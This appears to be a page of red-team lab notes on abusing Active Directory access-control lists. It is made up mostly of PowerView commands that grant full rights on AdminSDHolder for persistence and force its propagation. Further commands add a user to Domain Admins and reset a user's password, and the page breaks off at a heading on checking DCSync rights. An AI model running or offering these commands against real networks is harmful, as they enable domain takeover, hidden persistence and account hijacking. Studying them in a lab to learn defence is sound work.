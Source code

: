 ### Admin SDHolder

    ```powershell
    # Resides in System Container of domain and maintains permission for Protected Groups
    # Uses Security Descriptor Propagator (SDPROP) every hour and compares the ACL of protected groups & its members with ACL defined in AdminSDHolder and any differences are overwritten

    # Set generic all rights to our specified principal 
    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -PrincipalIdentity studentuser1 -Right All -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -verbose

    # Other interesting permissions include (ResetPassword, WriteMembers)

    # Trigger the SDPropagation
    Invoke-SDPropagator -timeoutMinutes 1 -showProgress -verbose

    ```

### ACL Abuse Scenarios

    ```powershell

    >> CASE 1: Modify right on Domain Admins group

    # Step 1. Check if one of the pricipals we control has any rights on Domain Admin group
    Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ?{$_.IdentityReferenceName -match "studentuserSID"}

    # Stp 2.  Above Privilege can be abused by adding members to Domain Admin Group
    Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

    >> CASE 2: Exploiting ResetPassword rights on Domain User Account

    # Step 1. Change Password of user account if there is any resetpassword rights using powerview
    Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -verbose

    >> CASE 3: DCSync rights on user account

    # CASE 3.1: Check for presence of DCSync Right to any pricipal in domain
